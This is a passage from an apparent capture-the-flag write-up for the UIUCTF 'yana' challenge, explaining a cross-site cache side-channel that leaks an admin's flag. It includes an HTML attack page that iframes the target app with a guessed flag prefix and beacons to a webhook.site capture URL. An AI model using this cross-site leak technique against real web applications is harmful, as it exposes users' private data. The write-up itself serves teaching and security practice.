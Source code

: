 ![basic capture](img/basic_capture.png)

We got them both as expected. Let's now connect the things, by playing a little bit with an iframe pointing to the yana app:

```html
<html>
    <head>
        <script>
            fetch('https://webhook.site/8f324ab5-a556-4328-89bc-e9d606a390ba/fetching', {'mode': 'no-cors'});
        </script>
    </head>
    <body>
        <!-- New Stuff -->
        <iframe id="ifr" src="https://chal.yana.wtf/#uiuctf{a"></iframe><br/>
        <img src="https://webhook.site/8f324ab5-a556-4328-89bc-e9d606a390ba/bleh.png">
    </body>
</html>
```

This will make the yana app search for "uiuctf{a" in the admin note and return the answer (found or not) but... how to get the answer? (Nothing different captured here).

Since we're on a different domain, browsers make their best to avoid evil sites like yours from recovering information from a innocent sites by using iframes.

## Cache feelings

After frying my brain (I think I ended the challenge like 30 years older), I thought about caching as a possible attack vector.

When it loads a new browser instance, the cache is empty and when the yana page makes the search, it loads either the **y.png** or the **n.png**. If the hash is part of the flag, the y.png file will be cached after the frame finishes loading.
